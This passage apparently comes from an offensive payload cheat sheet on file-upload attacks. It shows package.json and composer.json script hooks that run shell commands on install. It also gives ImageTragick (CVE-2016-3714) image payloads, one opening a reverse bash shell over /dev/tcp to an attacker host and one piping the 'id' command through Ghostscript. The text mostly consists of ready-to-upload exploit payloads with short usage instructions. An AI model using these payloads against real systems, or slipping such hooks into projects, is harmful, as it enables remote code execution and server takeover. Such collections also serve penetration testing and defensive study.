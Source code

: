 When the configuration file will be parsed (e.g. restart, crash or autoreload) payload will be executed.

#### Dependency Manager

Alternatively you may be able to upload a JSON file with a custom scripts, try to overwrite a dependency manager configuration file.

* package.json

    ```js
    "scripts": {
        "prepare" : "/bin/touch /tmp/pwned.txt"
    }
    ```

* composer.json

    ```js
    "scripts": {
        "pre-command-run" : [
        "/bin/touch /tmp/pwned.txt"
        ]
    }
    ```

### CVE - ImageMagick

If the backend is using ImageMagick to resize/convert user images, you can try to exploit well-known vulnerabilities such as ImageTragik.

#### CVE-2016–3714 - ImageTragik

Upload this content with an image extension to exploit the vulnerability (ImageMagick , 7.0.1-1)

* ImageTragik - example #1

    ```powershell
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
    pop graphic-context
    ```

* ImageTragik - example #3

    ```powershell
    %!PS
    userdict /setpagedevice undef
    save
    legal
    { null restore } stopped { pop } if
    { legal } stopped { pop } if
    restore
    mark /OutputFile (%pipe%id) currentdevice putdeviceprops
    ```
